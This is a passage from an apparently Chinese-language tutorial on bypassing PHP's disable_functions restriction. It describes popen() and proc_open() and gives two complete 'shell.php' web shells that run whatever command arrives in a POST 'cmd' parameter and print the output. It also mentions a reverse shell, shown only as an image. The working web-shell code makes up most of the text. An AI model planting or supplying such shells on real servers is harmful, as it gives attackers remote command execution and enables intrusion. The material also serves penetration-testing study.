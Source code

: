 - popen()

  ```php
  resource popen ( string $command , string $mode );
  # 函数需要两个参数，一个是执行的命令command，另外一个是指针文件的连接模式mode，有r和w代表读和写。函数不会直接返回执行结果，而是返回一个文件指针，但是命令已经执行。popen()打开一个指向进程的管道，该进程由派生给定的command命令执行而产生。返回一个和fopen()所返回的相同的文件指针，只不过它是单向的（只能用于读或写）并且必须用pclose()来关闭。此指针可以用于fgets()，fgetss()和 fwrite()
  ```

  `shell.php`

  ```php
  <?php  
  $command = $_POST[cmd];  
  $fp = popen($command,"r");
    
  while (!feof($fp)) {
   $out = fgets($fp, 4096);  
   echo  $out;
  }  
  pclose($fp);  
  ?>
  ```

![](ByPaass_disable_Function.assets/ByPass disable_function_1.png)

反弹shell

![](ByPaass_disable_Function.assets/ByPass disable_function_2.png)

- proc_open()

  ```php
  resource proc_open ( 
  string $cmd , 
  array $descriptorspec , 
  array &$pipes [, string $cwd [, array $env [, array $other_options ]]] 
  );
  # 与Popen函数类似，但是可以提供双向管道
  ```

  `shell.php`

  ```php
  <?php  
  $command = $_POST[cmd];  
  $array =   array(  
   array("pipe","r"),   //标准输入  
   array("pipe","w"),   //标准输出内容  
   array("pipe","w")    //标准输出错误  
   );  
    
  $fp = proc_open($command,$array,$pipes);   //打开一个进程通道  
  echo stream_get_contents($pipes[1]);    //为什么是$pipes[1]，因为1是输出内容  
  proc_close($fp);  
  ?> 
  ```
